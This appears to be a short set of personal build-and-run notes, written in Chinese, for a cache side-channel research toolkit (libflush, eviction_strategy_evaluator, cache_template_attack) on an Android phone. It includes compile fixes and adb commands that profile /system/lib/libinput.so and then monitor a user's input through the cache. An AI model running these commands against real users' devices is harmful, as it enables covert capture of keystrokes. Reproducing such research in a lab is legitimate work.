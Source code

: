 # 一些操作
向`/opt/android/ndk/toolchains/arm-linux-androideabi-4.9/prebuilt/linux-x86_64/lib/gcc/arm-linux-androideabi/4.9.x/include`文件夹中移动了`/libflush/libflush/armv7`文件夹以解决
```bash
 [CC] cache_template_attack/calibrate.c
cache_template_attack/calibrate.c:5:31: fatal error: libflush/libflush.h: No such file or directory
 #include <libflush/libflush.h>
                               ^
compilation terminated.
```
问题

在编译`cache_template_attack`的时候，删除上面添加的`.so.*`动态链接库，可以获得加入静态库可以直接在手机中执行的程序版本。

在编译libflush的时候在命令行中添加`DESTDIR`参数来安装库到制定的文件夹
```sh
make DESTDIR=/opt/android/ndk/platforms/android-23/arch-arm/ install
```

通过`cat /system/build.prop | grep product`来获得系统芯片信息。


```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml run_strategies -e 30 -a 10 -d 10 -n 10000
```

run_stategies时不用连接手机
命令为
```sh
eviction_strategy_evaluator -c conf.yml -x cancro.yml evaluate_strategies /home/larry/Documents/cancro -t 95
```


获得数据的命令行为
```sh
adb shell /data/local/tmp/input-simulator -r -1 -d 1 s &

adb shell /data/local/tmp/cache_template_attack -c 0 -r b6b19000-b6b33000 -o 000000000 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/s.log

adb shell kill 'adb shell ps | grep input-simulator | grep input-simulator | awk '{print $2}'| head -1'
```
监测用户输入数据的命令为

```sh
adb shell /data/local/tmp/cache_template_attack -s -c 0 -r b6b19000-b6b33000 -o 00006480 -f 1 /system/lib/libinput.so -l /data/local/tmp/log/test.log
```

